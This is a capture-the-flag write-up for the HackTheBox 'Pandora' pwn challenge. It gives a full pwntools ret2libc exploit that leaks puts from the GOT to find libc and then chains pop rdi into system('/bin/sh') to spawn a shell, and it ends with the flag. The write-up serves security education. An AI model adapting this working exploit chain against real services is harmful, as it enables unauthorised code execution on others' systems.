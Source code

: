 ```yaml
---
name: Pandora (2023)
event: HackTheBox Cyber Apocalypse - Intergalactic Chase CTF 2023
category: Pwn
description: Writeup for Pandora (Pwn) - HackTheBox Cyber Apocalypse - Intergalactic Chase CTF (2023) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: true
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Pandora

## Description

> You stumbled upon one of Pandora's mythical boxes. Would you be curious enough to open it and see what's inside, or would you opt to give it to your team for analysis?

## Solution

Classic ret2libc attack. First, find the offset to RIP.

```bash
cyclic -l haaaaaaa
Finding cyclic pattern of 8 bytes: b'haaaaaaa' (hex: 0x6861616161616161)
Found at offset 56
```

Next, leak lib-c foothold with `puts()` then redirect execution flow to the beginning of the `box` function and this time, ret2system.

```python
from pwn import *

def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

# Specify your GDB script here for debugging
gdbscript = '''
init-pwndbg
break *0x4013a5
continue
'''.format(**locals())

# Set up pwntools for the correct architecture
exe = './pb'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Enable verbose logging so we can see exactly what is being sent (info/debug)
context.log_level = 'debug'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

# Lib-C library
libc = ELF('glibc/libc.so.6')

# OFfset to RIP
offset = 56

# Start program
io = start()

# POP RDI from ropper
pop_rdi = 0x40142b
ret = 0x401016

# Payload to leak libc function
payload = flat({
    offset: [
        pop_rdi,
        elf.got.puts,
        elf.plt.puts,
        elf.symbols.box
    ]
})

# Second menu option
io.sendlineafter(b'>', b'2')

# Send the payload
io.sendlineafter(b':', payload)

io.recvlines(3)  # Receive the newlines

# Retrieve got.puts address
got_puts = unpack(io.recv()[:6].ljust(8, b'\x00'))
info("leaked got_puts: %#x", got_puts)

# Subtract puts offset to get libc base
libc.address = got_puts - libc.symbols.puts
info("libc_base: %#x", libc.address)

# System(/bin/sh)
info("system_addr: %#x", libc.symbols.system)
bin_sh = next(libc.search(b'/bin/sh\x00'))
info("bin_sh: %#x", bin_sh)

# Payload to get shell
payload = flat({
    offset: [
        pop_rdi,
        bin_sh,
        ret,
        libc.symbols.system
    ]
})

# Second menu option
io.sendline(b'2')

# Send the payload
io.sendlineafter(b':', payload)

# Got Shell?
io.interactive()
```

Flag: `HTB{r3turn_2_P4nd0r4?!}`
